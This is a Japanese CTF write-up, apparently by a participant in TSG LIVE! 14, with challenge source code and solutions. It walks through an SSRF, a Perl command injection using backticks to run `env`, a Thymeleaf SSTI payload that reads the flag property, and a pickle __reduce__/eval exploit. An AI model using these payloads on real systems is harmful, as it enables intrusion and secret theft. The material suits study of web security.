


今回は東京大学TSGさんにお誘いいただき、TPCとしてオンサイトで参加させていただきました。
TSG LIVE! 14は五月祭の企画として行われ、そのコンテンツの一つとして2時間半のCTFが開催されました。その他にもコードゴルフや競技プログラミングなどの企画があるようです。

アーカイブはこちら（解説やインタビューがあります）

https://www.youtube.com/live/7Oxm6mKCIjw?si=HrOzfdgtfbOWBeq5

TPC側は9人で参加し、自分はweb問を担当したのでそれを中心に書いていこうと思います。

## web

### Shortnm [8 solves]

> URL短縮サービスを作りました。

<details>
  <summary>問題コード</summary>

```python title=flag/main.py
from fastapi import FastAPI, Request
from fastapi.responses import PlainTextResponse

app = FastAPI()

@app.get("/flag")
async def get_flag(request: Request):
    host = request.headers.get("host", "")
    if host == "flag:45654" and request.url.port == 45654:
        return PlainTextResponse("TSGLIVE{REDACTED}")
    return PlainTextResponse("Access denied", status_code=403)

```

```python title=app/main.py
from fastapi import FastAPI, Query, Request, Response
from fastapi.responses import RedirectResponse, HTMLResponse
from fastapi.templating import Jinja2Templates
import redis
import httpx
import string, random, os

app = FastAPI()
r = redis.Redis(host=os.getenv("REDIS_HOST", "localhost"), port=6379, decode_responses=True)
templates = Jinja2Templates(directory="templates")

def generate_id(length=12):
    return ''.join(random.choices(string.ascii_letters + string.digits, k=length))

@app.get("/", response_class=HTMLResponse)
async def index(request: Request):
    return templates.TemplateResponse("index.html", {"request": request})

@app.get("/shorten")
async def shorten(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortem")
async def shortem(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    url = 'http://is.gd/create.php?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortenm")
async def shortenm(url: str = Query(...)):
    short_id = generate_id() 
    url = 'http://localhost:8000/shortem?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    short_id = generate_id() 
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)    
    return Response(content=response.content,status_code=response.status_code,media_type=response.headers.get("content-type"))

@app.get("/{short_id}")
async def redirect(short_id: str):
    url = r.get(short_id)
    if url:
        return RedirectResponse(url)
    return HTMLResponse("URL not found", status_code=404)

```

</details>

短縮URLを作るサービス(短縮->target)、外部の短縮URLを使い作るサービス(短縮->is.gd->target)、２つ目に通したURLのレスポンスを表示するサービスが提供されている。
これを用いてローカルの`http://flag:45654/flag`を取得したい。

この問題に一番最初に取り掛かった。普通に３つ目のサービスに`http://flag:45654/flag`を入れると見れるんじゃねということで入力してみると`Internal Server Error`が発生。このURLを１つ目のものに通してできた`http://xx.xxx.xxx.xxx:xxxxx/1WmFoYkI93mj`を３つ目に入れてみても同じくエラーが発生。

ここでなぜだろうと唸っていると、チームメンバーがis.gdに目的のURLを入れると、次のようなエラーが発生することを特定してくれた。

```json showLineNumbers=false
{
  "errorcode": 1,
  "errormessage": "Sorry, due to widespread abuse, we no longer allow linking to hosts by IP address."
}
```

要は変なホスト名だったりIPアドレスはダメみたい。なので、これをbypassするために適当な短縮URLサービス(今回は一番上に出てきたX.gd)[^short]を使用し、ターゲットのURLを短縮URLに変換し、それを３つ目に入れるとフラグ獲得。[^hisoutei]

[^short]: ホントは外部のサービスじゃなくてローカルで立ててngrokとかでやったほうがいいと思うんですが、時間がかかるので今回はこちらを採用しました。
[^hisoutei]: 実は想定解ではないらしい https://x.com/iwashiira/status/1926228844471534076

`TSGLIVE{Cr3a71ng_7h3_SSRF_pr0bl3m_wa5_d1ff1cul7}`

### perling_perler [20 solves]

> perl

<details>
  <summary>問題コード</summary>

```perl title=app/app.perl
#!/usr/bin/env perl
use Dancer2;

set template => 'template_toolkit';

get '/' => sub {
    return template 'index';
};

post '/echo' => sub {
    my $str = body_parameters->get('str');
    unless (defined $str) {
        return "No input provided";
    }

    if ($str =~ /[&;<>|\(\)\$\ ]/) {
        return "<h2>echo:</h2><pre>Invalid Input</pre><a href='/'>Back</a>";
    };

    my $output = `echo $str`;

    return "<h2>echo:</h2><pre>$output</pre><a href='/'>Back</a>";
};

start;

```

</details>

perlを使ったechoをするだけのサービス。明らかなOSコマンドインジェクションが存在している。環境変数にフラグはあります。

続いてこちらの問題を見てみる。前述の通りOSコマンドインジェクションだが、`&;<>|()$`と空白が使用できない。
この場合`` `ls` ``のようにすれば任意のコマンドが実行できそうです。
しかしながらスペースが使用できないので`cat /proc/self/environ`などは実行できません。ここで方針が浮かばないでいたところ[^osoi]チームメンバーによると`env`コマンドなるものが存在すると...
そのまま別のチームメンバーが解いてくれました。

[^osoi]: この問題だけ以上に問題サーバーが重かったです。なぜ...?

`` `env` ``と入力して環境変数を取得し、そこにフラグが書いてあります。

```txt showLineNumbers=false
HOSTNAME=27f06e778cd4 HOME=/home/appuser PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin PWD=/app FLAG="TSGLIVE{5h3ll1ng_5h3ll3r}"
```

`TSGLIVE{5h3ll1ng_5h3ll3r}`

### iwi_deco_demo [3 solves]

> JavaのWebアプリはSpring Bootで書くといいらしいです。

<details>
  <summary>問題コード</summary>

```java title=src/main/java/iwi/demo/DemoController.java
package iwi.demo;

import java.time.LocalDateTime;
import java.time.format.DateTimeFormatter;

import org.apache.commons.lang3.StringUtils;
import org.springframework.web.bind.annotation.*;
import org.springframework.ui.Model;
import org.springframework.stereotype.Controller;

@Controller
public class DemoController {
  @GetMapping("/")
  public String home() {
    return "iwi_form";
  }

  @PostMapping("/profile")
  public String showProfile(@RequestParam("userId") String userId, Model model) {
    model.addAttribute("userId", userId);
    return "iwi_profile";
  }

  @GetMapping("/user/{userId}/settings")
  public String userSettings(@PathVariable String userId, Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));
    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);
    model.addAttribute("email", userId + "@example.com");
    model.addAttribute("description", "Please update your email.");
    return "iwi_user";
  }

  @PostMapping("/user/{userId}/settings")
  public String updateSettings(@PathVariable String userId,
      @RequestParam String email,
      @RequestParam String description,
      Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));

    if (StringUtils.isBlank(email)) {
      model.addAttribute("message", "Email must not be blank.");
      email = userId + "@example.com";
    }

    if (StringUtils.isBlank(description)) {
      model.addAttribute("message", "Description is required.");
      description = "Please update your email.";
    }

    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);

    model.addAttribute("email", email);
    model.addAttribute("description", description);
    model.addAttribute("message", "Updated your profile.");

    return "iwi_user";
  }
}

```

```html title=src/main/resources/templates/iwi_profile.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO Result</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }
  </style>
</head>

<body>
  <h1>Hello, [[${userId}]]!</h1>
  <p>Click below to go to your settings:</p>
  <a th:href="@{'/user/__${userId}__/settings'}">Go to Settings</a>
</body>

</html>
```

```html title=src/main/resources/templates/iwi_user.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }

    input,
    textarea {
      width: 100%;
      padding: 0.5rem;
    }

    .readonly {
      background-color: #f5f5f5;
    }

    .msg {
      color: green;
      font-weight: bold;
    }
  </style>
</head>

<body>
  <h2>Settings for [[${userId}]]</h2>
  <div th:if="${message}" class="msg">[[${message}]]</div>

  <form th:action="@{/user/{id}/settings(id=${userId})}" method="post">
    <label>User ID:</label>
    <input type="text" th:value="${userId}" readonly class="readonly" />

    <label>Account Type:</label>
    <input type="text" th:value="${accountType}" readonly class="readonly" />

    <label>Last Login:</label>
    <input type="text" th:value="${lastLogin}" readonly class="readonly" />

    <label for="email">Email:</label>
    <input type="email" id="email" name="email" th:value="${email}" />

    <label for="description">Description:</label>
    <textarea id="description" name="description" rows="4" th:text="${description}"></textarea>

    <button type="submit" style="margin-top: 1rem;">Save</button>
  </form>
</body>

</html>

```

</details>

Javaのspring-bootを使用したサービスです。ユーザー名を入力したらそれのプロフィール画面に遷移でき、そこからプロフィール設定画面に遷移できます。

テンプレートを使用しているので、SSTIが濃厚かなと思いながら眺めていましたがJavaはあまり触ってこなかったので色々見ていました。

そこでチームメンバーからOGNLというキーワードが。調べてみるとspring-bootはThymeleaf[^Thymeleaf]を使用していて、そこでSSTIができそう。

[^Thymeleaf]: 読み方はタイムリーフらしい

https://blog.hamayanhamayan.com/entry/2021/12/20/215208

「Thymeleaf SSTI」で調べてみると、どうやらペイロードの一つに`'+${7*7}+'`というものがあるようで、これをサイトに入力しプロフィールから設定に遷移すると、userIdが`49`になりSSTIが成功しました。

https://github.blog/security/vulnerability-research/bypassing-ognl-sandboxes-for-fun-and-charities/

https://modzero.com/en/blog/spring_boot_ssti/

それよりも少し前にチームメンバーも同様のペイロードを確認していて、`"".getClass()`のようなやり方で環境変数を取得するペイロードをなんとか組み立てれないか試行錯誤しているようだったので、自分はThymeleafに環境変数を取得できる方法が存在していないかを調べてみることに。

「thymeleaf environment」で調べてみると、どうやら`${@environment.getProperty('property.key')}`のようなコードで環境変数を取得できるっぽい。[^hisoutei2]

[^hisoutei2]: おそらくこれは非想定解でもっと複雑なペイロードが期待されていたっぽい。 https://nanimokangaeteinai.hateblo.jp/entry/2025/05/24/153344#Web-428-iwi_deco_demo-3-solves

https://blog.tagbangers.co.jp/ja/2015/01/18/thymeleaf-environment-properties.html

```txt showLineNumbers=false
'+${@environment.getProperty("FLAG")}+'
```

これをUser IDに入れて同様にユーザー設定まで行くとフラグを獲得。

`TSGLIVE{5pr1ng_b007_5571_w17h_apach3_lang3_by_PARZEL}`

## その後

自分の担当分野であるweb問題がとき終わってからは残っている問題であるcryptoとpwnを眺めていたが、手も足も全くわからず。[^muzukasii]

[^muzukasii]: そりゃ難しい問題だけが残っているわけで...

そんな中チームメンバーがcyptoの問題に脆弱性を発見したようで。どうやらcryptoの後ろ２つの問題ではpickleが使用されていて、これを悪用することでフラグの値が抜けると！天才か？

<details>
  <summary>問題コード</summary>

```python title=problem.sage
#!/usr/bin/env sage 
from flag import flag

def sage_encode(obj):
    from sage.misc.persist import SagePickler
    from base64 import b64encode
    return b64encode(SagePickler.dumps(obj)).decode('ascii')

def sage_decode(enc_data):
    from base64 import b64decode
    import pickle
    return pickle.loads(b64decode(enc_data))

class Isogeny_decomp:
    def __init__(self,P,order_P = -1):
        if isinstance(P,list):
            for i in range(len(P)-1):
                assert P[i].codomain() == P[i+1].domain()
            self.isogenies = P[:]
            return
        if order_P == -1:
            order_P = P.order()
        self.isogenies = []
        for p,c in factor(order_P):
            for i in range(c):
                phi = P.curve().isogeny((order_P//p)*P)
                self.isogenies.append(phi)
                P = phi(P)
                order_P //= p
                if P == P.curve()((0,1,0)):
                    break
            if P == P.curve()((0,1,0)):
                break
    def __call__(self,P):
        for phi in self.isogenies:
            P = phi(P)
        return P
    def __mul__(self,other):
        assert other.isogenies[-1].codomain().j_invariant() == self.isogenies[0].domain().j_invariant()
        isom = other.isogenies[-1].codomain().isomorphism_to(self.isogenies[0].domain())
        return Isogeny_decomp(other.isogenies + [isom] + self.isogenies)
    def dual(self):
        ret = []
        for phi in self.isogenies:
            ret.append(phi.dual())
        ret.reverse()
        return Isogeny_decomp(ret)
    def domain(self):
        return self.isogenies[0].domain()
    def codomain(self):
        return self.isogenies[-1].codomain()

#SIKEp434
e2 = 0xD8
e3 = 0x89
p = 2**e2*3**e3-1
R.<x> = GF(p)[]
k.<i> = GF(p**2,modulus=x**2+1)

xQ30 = 0x00012E84_D7652558_E694BF84_C1FBDAAF_99B83B42_66C32EC6_5B10457B_CAF94C63_EB063681_E8B1E739_8C0B241C_19B9665F_DB9E1406_DA3D3846
xQ31 = 0x00000000
yQ30 = 0x00000000
yQ31 = 0x0000EBAA_A6C73127_1673BEEC_E467FD5E_D9CC29AB_564BDED7_BDEAA86D_D1E0FDDF_399EDCC9_B49C829E_F53C7D7A_35C3A074_5D73C424_FB4A5FD2
xP30 = 0x00008664_865EA7D8_16F03B31_E223C26D_406A2C6C_D0C3D667_466056AA_E85895EC_37368BFC_009DFAFC_B3D97E63_9F65E9E4_5F46573B_0637B7A9
xP31 = 0x00000000
yP30 = 0x00006AE5_15593E73_97609197_8DFBD70B_DA0DD6BC_AEEBFDD4_FB1E748D_DD9ED3FD_CF679726_C67A3B2C_C12B3980_5B32B612_E058A428_0764443B
yP31 = 0x00000000
xR30 = 0x0001CD28_597256D4_FFE7E002_E8787075_2A8F8A64_A1CC78B5_A2122074_783F51B4_FDE90E89_C48ED91A_8F4A0CCB_ACBFA7F5_1A89CE51_8A52B76C
xR31 = 0x00014707_3290D78D_D0CC8420_B1188187_D1A49DBF_A24F26AA_D46B2D9B_B547DBB6_F63A760E_CB0C2B20_BE52FB77_BD2776C3_D14BCBC4_04736AE4


xP3 = xP30+xP31*i
xQ3 = xQ30+xQ31*i
xR3 = xR30+xR31*i
yP3 = yP30+yP31*i
yQ3 = yQ30+yQ31*i

ec_start = EllipticCurve(k,[0,6,0,1,0])
P3 = ec_start((xP3,yP3))
Q3 = ec_start((xQ3,yQ3))

import secrets
sk3 = int(secrets.randbelow(int(3)**e3))
sp3 = P3+sk3*Q3

isogeny = Isogeny_decomp(sp3,3**e3)
E1 = isogeny.codomain()
import sys
print(E1,file=sys.stderr)

P = sage_decode(input("Enter a point: "))
print(sage_encode(isogeny(P).xy()))
P = sage_decode(input("Enter a next point: "))
print(sage_encode(isogeny(P).xy()))

user_sk = int(input("Enter your answer: "))
if user_sk == sk3:
    print("Correct")
    print(flag)
else:
    print("Incorrect")

```

</details>

なので実際にやってみる。pickleのexploitを用意し、

```python
import base64
import pickle

class Exploit:
  def __reduce__(self):
    return (
      eval,
      ("dict(print(open('./flag.py').read()),)",)
    )

data = base64.b64encode(pickle.dumps(Exploit())).decode('utf8')
print(f"data: {data}")
```

これを実行すると、



フラグが取れてしまいました。web人間としてはこれは気づきたかった... 悔しい...

## まとめ



CTF初めて数ヶ月、初めてオンサイトのCTFに参加しましたが、わいわいできて非常に楽しかったです。招待してくださったTSGの皆様と、誘ってくれたチームメンバーに感謝！
イベントの結果としてはTSGに勝利し、3988ptで全体では２位という結果でした。１つでもフラグ取れれば良いかなーと思ってましたが２つも取れて結果に寄与できて良かったです。

終了後はメンバーと五月祭を回ったりしました。弊学とは違うところが多く新鮮でした。そして初対面の人とたくさん話せて非常に良かったです。

<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">めん <a href="https://t.co/LokMHPEOOf">pic.twitter.com/LokMHPEOOf</a></p>&mdash; kasi (@kq5y__) <a href="https://twitter.com/kq5y__/status/1926222996248653873?ref_src=twsrc%5Etfw">May 24, 2025</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
